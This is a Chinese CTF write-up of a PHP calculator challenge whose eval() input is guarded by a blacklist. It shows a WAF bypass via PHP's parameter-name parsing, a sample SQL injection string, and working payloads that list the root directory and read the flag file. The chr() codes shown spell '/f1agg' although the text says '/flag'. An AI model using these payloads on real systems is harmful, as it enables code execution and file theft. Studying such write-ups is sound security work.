

一个计算器 查看源代码 找到calc.php

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```

PHP的字符串解析特性

我们知道PHP将查询字符串（在URL或正文中）转换为内部$_GET或的关联数组$_POST。例如：/?foo=bar变成Array([foo] => “bar”)。

值得注意的是，查询字符串在解析的过程中会将某些字符删除或用下划线代替。例如，/?%20news[id%00=42会转换为Array([news_id] => 42)。如果一个IDS/IPS或WAF中有一条规则是当news_id参数的值是一个非数字的值则拦截，那么我们就可以用以下语句绕过：

/news.php?%20news[id%00=42"+AND+1=0–

上述PHP语句的参数%20news[id%00的值将存储到$_GET[“news_id”]中。

PHP需要将所有参数转换为有效的变量名，因此在解析查询字符串时，它会做两件事：

> 1.删除空白符
>
> 2.将某些字符转换为下划线（包括空格）

在了解到PHP的字符串解析之后，我们思考一个问题，WAF它不让num参数传入字母，所以我们不能让WAF文件检测到字母，但是我们又需要传入字母来构成我们的命令，这种情况下我们该怎么对其进行绕过呢？

___

绕过方法

因为num不可以传入字母，但是我们在num参数之前添加一个空格，这样在**PHP的语言特性下会默认删除这个空格，但是WAF会因为这个空格导致检测不到num这个参数，最终导致WAF被绕过**。

```
?%20num=var_dump(scandir(chr(47)))
```



知道了flag在/flag中

```
?%20num=var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
```

string(43) "flag{2eb7dc07-8722-4846-96dd-1d0ddc4ce8cd} "

这些是ascii码 47对应/

